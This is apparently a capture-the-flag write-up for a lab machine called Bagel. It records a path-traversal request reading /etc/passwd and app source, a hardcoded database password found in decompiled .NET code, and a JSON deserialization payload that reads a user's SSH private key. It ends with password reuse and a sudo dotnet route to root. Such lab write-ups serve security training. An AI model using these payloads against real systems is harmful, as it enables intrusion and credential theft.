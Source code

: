 # Bro Science

## IP = 10.10.11.201

### Initial
```

```

### Directory traversal on: `GET /?page=../../../../../../../../etc/passwd HTTP/1.1`
```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/usr/sbin/nologin
systemd-oom:x:999:999:systemd Userspace OOM Killer:/:/usr/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/usr/sbin/nologin
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
setroubleshoot:x:997:995:SELinux troubleshoot server:/var/lib/setroubleshoot:/sbin/nologin
cockpit-ws:x:996:994:User for cockpit web service:/nonexisting:/sbin/nologin
cockpit-wsinstance:x:995:993:User for cockpit-ws instances:/nonexisting:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
chrony:x:994:992::/var/lib/chrony:/sbin/nologin
dnsmasq:x:993:991:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
systemd-coredump:x:989:989:systemd Core Dumper:/:/usr/sbin/nologin
systemd-timesync:x:988:988:systemd Time Synchronization:/:/usr/sbin/nologin
developer:x:1000:1000::/home/developer:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
_laurel:x:987:987::/var/log/laurel:/bin/false
```

### page=../app.py
```py
from flask import Flask, request, send_file, redirect, Response
import os.path
import websocket,json

app = Flask(__name__)

@app.route('/')
def index():
        if 'page' in request.args:
            page = 'static/'+request.args.get('page')
            if os.path.isfile(page):
                resp=send_file(page)
                resp.direct_passthrough = False
                if os.path.getsize(page) == 0:
                    resp.headers["Content-Length"]=str(len(resp.get_data()))
                return resp
            else:
                return "File not found"
        else:
                return redirect('http://bagel.htb:8000/?page=index.html', code=302)

@app.route('/orders')
def order(): # don't forget to run the order app first with "dotnet <path to .dll>" command. Use your ssh key to access the machine.
    try:
        ws = websocket.WebSocket()    
        ws.connect("ws://127.0.0.1:5000/") # connect to order app
        order = {"ReadOrder":"orders.txt"}
        data = str(json.dumps(order))
        ws.send(data)
        result = ws.recv()
        return(json.loads(result)['ReadOrder'])
    except:
        return("Unable to connect")

if __name__ == '__main__':
  app.run(host='0.0.0.0', port=8000)


```

### ?page=../../../../../../../../../proc/1/cmdline
By spamming different PIDs we find: `dotnet /opt/bagel/bin/Debug/net6.0/bagel.dll`

```
[Obsolete("The production team has to decide where the database server will be hosted. This method is not fully implemented.")]
public void DB_connection()
{
    //IL_0008: Unknown result type (might be due to invalid IL or missing references)
    //IL_000e: Expected O, but got Unknown
    string text = "Data Source=ip;Initial Catalog=Orders;User ID=dev;Password=k8wdAYYKyhnjg3K";
    SqlConnection val = new SqlConnection(text);
    string text2 = "INSERT INTO orders (Name,Address,Count,Type) VALUES ('Eliot','Street',4,'Baggel')";
}
```

### Insecure deserialization (.NET core)
https://systemweakness.com/exploiting-json-serialization-in-net-core-694c111faa15

1. The `TypeNameHandling` field is not None, but `Base` is strictly enforce (and we require `object` to exploit)
```cs
public object Deserialize(string json)
        {
            object result;
            try
            {
                result = JsonConvert.DeserializeObject<Base>(json, new JsonSerializerSettings
                {
                    TypeNameHandling = 4
                });
            }
            catch
            {
                result = "{\"Message\":\"unknown\"}";
            }
            return result;
        }
```
2. We notice that `Base` has `RemoveOrder` as object, so we could taint this instead of the whole `Base` object
3. We can than abuse the already present `File` class to read Phil's `id_rsa`
```json
order = {
    "RemoveOrder": {
        "$type": "bagel_server.File, bagel",
        "ReadFile": "../../../../../../home/phil/id_rsa"
    }
}
```

### user.txt

### password of developer is the same of the DB connection: `developer:k8wdAYYKyhnjg3K`

### sudo -l
```
[developer@bagel shm]$ sudo -l
Matching Defaults entries for developer on bagel:
    .
    .
    .                                                                                                                             
                                                                                                                                                                                                                                           
User developer may run the following commands on bagel:
    (root) NOPASSWD: /usr/bin/dotnet
```
https://gtfobins.github.io/gtfobins/dotnet/

### root.txt